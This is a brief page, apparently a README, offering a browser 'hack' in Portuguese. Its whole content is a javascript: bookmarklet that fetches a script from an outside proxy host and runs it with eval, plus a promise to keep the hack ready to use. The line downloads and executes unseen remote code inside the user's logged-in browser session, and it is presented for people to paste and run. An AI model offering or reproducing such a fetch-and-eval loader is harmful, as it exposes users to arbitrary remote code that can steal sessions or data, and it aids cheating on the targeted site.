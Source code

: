 # Codigo
javascript:fetch("https://proxy.khanware.space/estrogen.productions/p/raw/z6dwi4dw03").then(t=>t.text()).then(eval);

Juro que com o tempo vou tentar sempre ta deixando o hack pronto pra usar
